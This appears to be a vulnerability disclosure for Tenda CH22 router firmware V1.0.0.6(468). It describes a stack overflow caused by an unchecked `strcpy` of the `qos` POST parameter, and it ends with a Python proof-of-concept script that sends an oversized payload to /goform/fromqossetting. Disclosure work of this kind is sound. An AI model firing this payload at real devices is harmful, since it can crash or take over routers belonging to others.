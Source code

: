 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmwarehas a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `v1 = strcpy(dest, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `dest` array, thus triggering this security vulnerability.
![Vulnerability Function2](171456.png)


## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/fromqossetting"
payload = b"a"*1000

data = {"op":"aaa","qos": payload}
response = requests.post(url, data=data)
print(response.text)
```
![Vulnerability Function2](171541.png)